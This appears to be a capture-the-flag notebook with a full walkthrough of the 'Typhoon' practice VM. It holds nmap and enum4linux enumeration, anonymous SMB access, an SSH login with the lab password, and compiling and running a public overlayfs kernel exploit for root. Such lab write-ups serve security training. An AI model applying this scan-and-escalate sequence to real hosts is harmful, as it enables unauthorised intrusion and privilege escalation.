









Index
- BasicPenTestingBox
- BasicPenTestingBox2
- bee box
- BossPlayer
- CyberChallenge19
- Dawn
- DC-1
- DC-2
- DC-3
- DerpNStik
- EVM
- Fowsniff
- Gemini Inc 1
- JIS_CTF
- mullidae
- PumpkinFestival
- PumpkinGarden
- PumpkinRaising
- QuaoarCTFHackfest2016
- Rickdiculously Easy
- silky02
- silky1
- Typhoon
- VMS to try
- xss challenges
- Blue
- mr robot
- Unfinished VMS
- CasinoRoyale
- WinterMute Straylight
- connect the dots (unfinished)
- arsenal
- heist
- MyHouse Box
- Sputnik
- Node
- HackInOs
- Seattle
- DC416-Galahad
- Not a Box
- ICE
Typhoon
TYPHOON:Nmap scan report for 192.168.56.109
Host is up (0.00018s latency).
Not shown: 983 closed ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
25/tcp open smtp
53/tcp open domain
80/tcp open http
110/tcp open pop3
111/tcp open rpcbind
139/tcp open netbios-ssn
143/tcp open imap
445/tcp open microsoft-ds
631/tcp open ipp
993/tcp open imaps
995/tcp open pop3s
2049/tcp open nfs
3306/tcp open mysql
5432/tcp open postgresql
8080/tcp open http-proxy
MAC Address: 08:00:27:1C:BE:A7 (Oracle VirtualBox virtual NIC)
root@kali:~# nmap -sV 192.168.56.109
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-06 12:03 EST
Nmap scan report for 192.168.56.109
Host is up (0.00049s latency).
Not shown: 983 closed ports
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.2
22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
25/tcp open smtp Postfix smtpd
53/tcp open domain ISC BIND 9.9.5-3 (Ubuntu Linux)
80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
110/tcp open pop3 Dovecot pop3d
111/tcp open rpcbind 2-4 (RPC #100000)
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open imap Dovecot imapd (Ubuntu)
445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp open ipp CUPS 1.7
993/tcp open ssl/imaps?
995/tcp open ssl/pop3s?
2049/tcp open nfs_acl 2-3 (RPC #100227)
3306/tcp open mysql MySQL (unauthorized)
5432/tcp open postgresql PostgreSQL DB 9.3.3 - 9.3.5
8080/tcp open http Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:1C:BE:A7 (Oracle VirtualBox virtual NIC)
Service Info: Hosts: typhoon, TYPHOON; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.79 seconds
root@kali:~#




---> is Drupal version 8
---> enumerating smb shares:
root@kali:~# enum4linux 192.168.56.109
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Wed Nov 6 12:19:02 2019
==========================
| Target Information |
==========================
Target ........... 192.168.56.109
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
======================================================
| Enumerating Workgroup/Domain on 192.168.56.109 |
======================================================
[+] Got domain/workgroup name: WORKGROUP
==============================================
| Nbtstat Information for 192.168.56.109 |
==============================================
Looking up status of 192.168.56.109
TYPHOON <00> - B <ACTIVE> Workstation Service
TYPHOON <03> - B <ACTIVE> Messenger Service
TYPHOON <20> - B <ACTIVE> File Server Service
..__MSBROWSE__. <01> - <GROUP> B <ACTIVE> Master Browser
WORKGROUP <00> - <GROUP> B <ACTIVE> Domain/Workgroup Name
WORKGROUP <1d> - B <ACTIVE> Master Browser
WORKGROUP <1e> - <GROUP> B <ACTIVE> Browser Service Elections
MAC Address = 00-00-00-00-00-00
=======================================
| Session Check on 192.168.56.109 |
=======================================
[+] Server 192.168.56.109 allows sessions using username '', password ''
=============================================
| Getting domain SID for 192.168.56.109 |
=============================================
Domain Name: WORKGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup
========================================
| OS information on 192.168.56.109 |
========================================
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for 192.168.56.109 from smbclient:
[+] Got OS info for 192.168.56.109 from srvinfo:
TYPHOON Wk Sv PrQ Unx NT SNT Samba 4.1.6-Ubuntu
platform_id : 500
os version : 4.9
server type : 0x809a03
===============================
| Users on 192.168.56.109 |
===============================
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: typhoon Name: typhoon Desc:
index: 0x2 RID: 0x3e9 acb: 0x00000010 Account: admin Name: Desc:
user:[typhoon] rid:[0x3e8]
user:[admin] rid:[0x3e9]
===========================================
| Share Enumeration on 192.168.56.109 |
===========================================
Sharename Type Comment
--------- ---- -------
IPC$ IPC IPC Service (Samba 4.1.6-Ubuntu)
typhoon Disk typhoon
print$ Disk Printer Drivers
Reconnecting with SMB1 for workgroup listing.
Server Comment
--------- -------
Workgroup Master
--------- -------
WORKGROUP TYPHOON
[+] Attempting to map shares on 192.168.56.109
//192.168.56.109/IPC$ [E] Can't understand response:
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
//192.168.56.109/typhoon Mapping: OK, Listing: OK
//192.168.56.109/print$ Mapping: DENIED, Listing: N/A
======================================================
| Password Policy Information for 192.168.56.109 |
======================================================
[+] Attaching to 192.168.56.109 using a NULL share
[+] Trying protocol 445/SMB...
[+] Found domain(s):
[+] TYPHOON
[+] Builtin
[+] Password Info for Domain: TYPHOON
[+] Minimum password length: 5
[+] Password history length: None
[+] Maximum password age: 37 days 6 hours 21 minutes
[+] Password Complexity Flags: 000000
[+] Domain Refuse Password Change: 0
[+] Domain Password Store Cleartext: 0
[+] Domain Password Lockout Admins: 0
[+] Domain Password No Clear Change: 0
[+] Domain Password No Anon Change: 0
[+] Domain Password Complex: 0
[+] Minimum password age: None
[+] Reset Account Lockout Counter: 30 minutes
[+] Locked Account Duration: 30 minutes
[+] Account Lockout Threshold: None
[+] Forced Log off Time: 37 days 6 hours 21 minutes
[+] Retieved partial password policy with rpcclient:
Password Complexity: Disabled
Minimum Password Length: 5
================================
| Groups on 192.168.56.109 |
================================
[+] Getting builtin groups:
[+] Getting builtin group memberships:
[+] Getting local groups:
[+] Getting local group memberships:
[+] Getting domain groups:
[+] Getting domain group memberships:
=========================================================================
| Users on 192.168.56.109 via RID cycling (RIDS: 500-550,1000-1050) |
=========================================================================
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-830993545-1361545238-2689178323
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\typhoon (Local User)
S-1-22-1-1001 Unix User\admin (Local User)
S-1-22-1-1002 Unix User\postfixuser (Local User)
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
S-1-5-32-500 *unknown*\*unknown* (8)
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
[+] Enumerating users using SID S-1-5-21-830993545-1361545238-2689178323 and logon username '', password ''
S-1-5-21-830993545-1361545238-2689178323-500 *unknown*\*unknown* (8)
S-1-5-21-830993545-1361545238-2689178323-501 TYPHOON\nobody (Local User)
S-1-5-21-830993545-1361545238-2689178323-513 TYPHOON\None (Domain Group)
===============================================
| Getting printer info for 192.168.56.109 |
===============================================
No printers returned.
enum4linux complete on Wed Nov 6 12:19:22 2019
-→ Share that we can access:
//192.168.56.109/typhoon Mapping: OK, Listing: OK
root@kali:~# smbclient \\\\192.168.56.109\\typhoon -N
Try "help" to get a list of possible commands.
smb: \>
There is also an Anonymous ftp:

The mongodb admin page:



This the credentials for the user typhoon, with password 789456123
Log in to ssh

typhoon@typhoon:~$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description: Ubuntu 14.04.1 LTS
Release: 14.04
Codename: trusty
typhoon@typhoon:~$
FLAG
typhoon@typhoon:/typhoon$ ls
secret
typhoon@typhoon:/typhoon$ cat secret
test file
<rec0nm4st3r> R3c0n_m4steeeee3er_fl4g </rec0nm4st3r>
typhoon@typhoon:/typhoon$
root@kali:~# searchsploit ubuntu 14.04
--------------------------------------------------- ----------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
--------------------------------------------------- ----------------------------------------
Apport (Ubuntu 14.04/14.10/15.04) - Race Condition | exploits/linux/local/37088.c
Apport 2.14.1 (Ubuntu 14.04.2) - Local Privilege E | exploits/linux/local/36782.sh
Linux Kernel (Debian 7.7/8.5/9.0 / Ubuntu 14.04.2/ | exploits/linux_x86-64/local/42275.c
Linux Kernel (Debian 9/10 / Ubuntu 14.04.5/16.04.2 | exploits/linux_x86/local/42276.c
Linux Kernel (Ubuntu 14.04.3) - 'perf_event_open() | exploits/linux/local/39771.txt
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14. | exploits/linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14. | exploits/linux/local/37293.txt
Linux Kernel 3.x (Ubuntu 14.04 / Mint 17.3 / Fedor | exploits/linux/local/41999.txt
Linux Kernel 4.3.3 (Ubuntu 14.04/15.10) - 'overlay | exploits/linux/local/39166.c
Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64) - ' | exploits/linux_x86-64/local/40871.c
Linux Kernel 4.4.0-21 < 4.4.0-51 (Ubuntu 14.04/16. | exploits/linux/local/47170.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04 | exploits/linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 | exploits/linux/local/47169.c
NetKit FTP Client (Ubuntu 14.04) - Crash/Denial of | exploits/linux/dos/37777.txt
Ubuntu 14.04/15.10 - User Namespace Overlayfs Xatt | exploits/linux/local/41762.txt
WebKitGTK 2.1.2 (Ubuntu 14.04) - Heap based Buffer | exploits/linux/local/44204.md
usb-creator 0.2.x (Ubuntu 12.04/14.04/14.10) - Loc | exploits/linux/local/36820.txt
--------------------------------------------------- ----------------------------------------
Shellcodes: No Result
root@kali:~# scp 37292.c typhoon@192.168.56.109:
d888888b db db d8888b. db db .d88b. .d88b. d8b db
`~~88~~' `8b d8' 88 `8D 88 88 .8P Y8. .8P Y8. 888o 88
88 `8bd8' 88oodD' 88ooo88 88 88 88 88 88V8o 88
88 88 88~~~ 88~~~88 88 88 88 88 88 V8o88
88 88 88 88 88 `8b d8' `8b d8' 88 V888
YP YP 88 YP YP `Y88P' `Y88P' VP V8P
Vulnerable VM By PRISMA CSI - www.prismacsi.com
WARNING: Unauthorized access to this system is forbidden and will be
prosecuted by law. By accessing this system, you agree that your actions
may be monitored if unauthorized usage is suspected.
This is a joke of course :))
Please hack me!
-----------------------------------------------------------------------
typhoon@192.168.56.109's password:
37292.c 100% 5119 7.1MB/s 00:00
root@kali:~#
typhoon@typhoon:~$ ls
37292.c
typhoon@typhoon:~$ gcc 37292.c -o ofs
typhoon@typhoon:~$ .ofs
typhoon@typhoon:~$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
#
# ls
37292.c ofs
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),110(lpadmin),112(sambashare),125(libvirtd),1000(typhoon)
#
# cd root
# ls
root-flag
# cat root-flag
<Congrats!>
Typhoon_r00t3r!
</Congrats!>
#
Method 2: Exploiting Tomcat Manager
Method 3: Exploiting Drupal CMS
Method 4: Exploiting Lotus CMS